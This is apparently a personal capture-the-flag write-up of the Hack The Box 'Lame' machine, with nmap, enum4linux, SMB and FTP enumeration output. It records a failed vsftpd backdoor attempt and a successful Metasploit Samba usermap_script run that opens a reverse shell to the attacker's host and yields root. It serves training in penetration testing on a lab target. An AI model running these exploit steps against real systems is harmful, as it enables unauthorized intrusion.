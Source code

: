 # Lame 10.10.10.3 - Linux

__User__: 002 - Second Attempt

__Root__: 002 - Second Attempt

## 00 - Initial Attempt, 01/25/2020

`nmap -A 10.10.10.3`

```shell
PORT    STATE SERVICE     VERSION
21/tcp  open  ftp         vsftpd 2.3.4
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
| ftp-syst:
|   STAT:
| FTP server status:
|      Connected to 10.10.14.7
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      vsFTPd 2.3.4 - secure, fast, stable
22/tcp  open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
| ssh-hostkey:
|   1024 60:0f:cf:e1:c0:5f:6a:74:d6:90:24:fa:c4:d5:6c:cd (DSA)
|_  2048 56:56:24:0f:21:1d:de:a7:2b:ae:61:b1:24:3d:e8:f3 (RSA)
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
```

Attempted `smbclient -L 10.10.10.3 -p 445` as well as port `139`
  received: `protocol negotiation failed: NT_STATUS_CONNECTION_DISCONNECTED`


Possible CVE: https://www.samba.org/samba/security/CVE-2017-7494.html


Attempted: `enum4linux 10.10.10.3`

```shell
Starting enum4linux v0.8.9 ( http://labs.portcullis.co.uk/application/enum4linux/ ) on Sat Jan 25 05:24:54 2020

 ==========================
|    Target Information    |
 ==========================
Target ........... 10.10.10.3
RID Range ........ 500-550,1000-1050
Username ......... ''
Password ......... ''
Known Usernames .. administrator, guest, krbtgt, domain admins, root, bin, none
```

Attempted: `smbmap -H 10.10.10.3 -P 445 -v`

```shell
[+] Finding open SMB ports....
[+] User SMB session established on 10.10.10.3...
[+] 10.10.10.3:445 is running Unix (name:LAME) (domain:LAME)
```

## 01 - Second Attempt, 05/04/2020

`nmap -Pn -A -T4 -p- 10.10.10.3`

```shell
thoth@kali:~/Projects/htb-notes/machines/Lame/dumps$ nmap -Pn -A -T4 -p- 10.10.10.3
Starting Nmap 7.80 ( https://nmap.org ) at 2020-05-04 21:58 EDT
Nmap scan report for 10.10.10.3
Host is up (0.030s latency).
Not shown: 65530 filtered ports
PORT     STATE SERVICE     VERSION
21/tcp   open  ftp         vsftpd 2.3.4
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
| ftp-syst:
|   STAT:
| FTP server status:
|      Connected to 10.10.14.53
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      vsFTPd 2.3.4 - secure, fast, stable
|_End of status
22/tcp   open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
| ssh-hostkey:
|   1024 60:0f:cf:e1:c0:5f:6a:74:d6:90:24:fa:c4:d5:6c:cd (DSA)
|_  2048 56:56:24:0f:21:1d:de:a7:2b:ae:61:b1:24:3d:e8:f3 (RSA)
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 3.0.20-Debian (workgroup: WORKGROUP)
3632/tcp open  distccd     distccd v1 ((GNU) 4.2.4 (Ubuntu 4.2.4-1ubuntu4))
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: mean: 2h03m33s, deviation: 2h49m43s, median: 3m32s
| smb-os-discovery:
|   OS: Unix (Samba 3.0.20-Debian)
|   Computer name: lame
|   NetBIOS computer name:
|   Domain name: hackthebox.gr
|   FQDN: lame.hackthebox.gr
|_  System time: 2020-05-04T22:04:14-04:00
| smb-security-mode:
|   account_used: <blank>
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_smb2-time: Protocol negotiation failed (SMB2)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 141.97 seconds

```

#### Initial Notes

 - 21 running FTP with anon logins
  - "connected to 10.10.14.53" ?
  - vsFTPd 2.3.4
 - 22 ssh
  - OpenSSH 4.7p1
 - 139 smb
  - `Samba smbd 3.X - 4.X (workgroup: WORKGROUP)`
 - 445 smb
  - `Samba smbd 3.0.20-Debian (workgroup: WORKGROUP)`
 - 3632 distccd?
  - `distccd v1 ((GNU) 4.2.4 (Ubuntu 4.2.4-1ubuntu4))`
  - This is a p2p network distributed C/C++ compiler

Logged in to `ftp 10.10.10.3` as `anonymous`, but the cupboards seem bare...

```shell
thoth@kali:~/Projects/htb-notes/machines/Lame$ ftp 10.10.10.3
Connected to 10.10.10.3.
220 (vsFTPd 2.3.4)
Name (10.10.10.3:thoth): anonymous
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
226 Directory send OK.
ftp> pwd
257 "/"
```

Attempting to place a file fails:

```shell
ftp> put test.txt
local: test.txt remote: test.txt
200 PORT command successful. Consider using PASV.
553 Could not create file.
```

There does appear to be a metasploit lead:

```shell
msf5 > search vsftpd

Matching Modules
================

   #  Name                                  Disclosure Date  Rank       Check  Description
   -  ----                                  ---------------  ----       -----  -----------
   0  exploit/unix/ftp/vsftpd_234_backdoor  2011-07-03       excellent  No     VSFTPD v2.3.4 Backdoor Command Execution
```

It fails.

```shell
msf5 exploit(unix/ftp/vsftpd_234_backdoor) > run

[*] 10.10.10.3:21 - Banner: 220 (vsFTPd 2.3.4)
[*] 10.10.10.3:21 - USER: 331 Please specify the password.
[*] Exploit completed, but no session was created.
```

Performed an SMB version scan:

```shell
msf5 auxiliary(scanner/smb/smb_version) > run

[*] 10.10.10.3:445        - Host could not be identified: Unix (Samba 3.0.20-Debian)
```

## Metasploit Success

Searched for the `3.0.20` version in MSF:

```shell
msf5 > search 3.0.20

Matching Modules
================

   #  Name                                                   Disclosure Date  Rank       Check  Description
   -  ----                                                   ---------------  ----       -----  -----------
   0  auxiliary/admin/http/wp_easycart_privilege_escalation  2015-02-25       normal     Yes    WordPress WP EasyCart Plugin Privilege Escalation
   1  exploit/multi/samba/usermap_script                     2007-05-14       excellent  No     Samba "username map script" Command Execution


msf5 > use 1
msf5 exploit(multi/samba/usermap_script) > set RHOSTS 10.10.10.3
RHOSTS => 10.10.10.3
msf5 exploit(multi/samba/usermap_script) > run

[*] Started reverse TCP double handler on 10.10.14.53:4444
[*] Accepted the first client connection...
[*] Accepted the second client connection...
[*] Command: echo FKrQJOaETOA0KVVF;
[*] Writing to socket A
[*] Writing to socket B
[*] Reading from sockets...
[*] Reading from socket B
[*] B: "FKrQJOaETOA0KVVF\r\n"
[*] Matching...
[*] A is input...
[*] Command shell session 1 opened (10.10.14.53:4444 -> 10.10.10.3:51941) at 2020-05-04 22:29:07 -0400

whoami
root
hostname
lame
```

Found user flag in `/home/makis/user.txt`

Root flag in `/root/root.txt`